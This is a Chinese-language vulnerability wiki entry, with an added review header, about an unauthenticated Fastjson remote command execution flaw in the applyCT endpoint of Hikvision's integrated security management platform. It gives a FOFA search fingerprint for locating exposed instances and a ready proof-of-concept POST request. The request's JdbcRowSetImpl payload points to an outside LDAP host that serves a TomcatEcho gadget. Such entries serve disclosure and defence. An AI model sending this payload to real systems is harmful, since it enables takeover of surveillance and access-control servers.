

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：No Hikvision or Fastjson release; metadata is product name; apparent unauthenticated applyCT route

代码与实验材料：Short HTTP fragment and cache/JdbcRowSet payload with external TomcatEcho gadget; no gadget/JDK or textual result

来源证据范围：Vulnerability-Wiki attribution only

- **事实待核（1）**：No affected build/auth/runtime prerequisites to establish product-wide RCE。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（2）**：HTTP start line lacks version/Host; callback helper undeclared and result image-only。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Hikvision 综合安防管理平台 applyCT Fastjson远程命令执行漏洞

> 版本字段校订（2026-10-04）：误填的版本字段原值逐字保存到对应 `previous_*` 字段。当前值区分正文声称的影响范围、实验环境与尚未知的范围；后文对该元数据误填的旧说明只描述校订前状态，未据此升级来源结论。

## 漏洞描述

Hikvision 综合安防管理平台 applyCT 存在低版本Fastjson远程命令执行漏洞，攻击者通过漏洞可以执行任意命令获取服务器权限

## 漏洞影响

```
Hikvision 综合安防管理平台
```

## 网络测绘

```
app="Hikvision-综合安防管理平台"
```

## 漏洞复现

登录页面


验证POC

```
POST /bic/ssoService/v1/applyCT 
Content-Type: application/json

{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxx.xxx.xxx.xxx/Basic/TomcatEcho","autoCommit":true},"hfe4zyyzldp":"="}
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
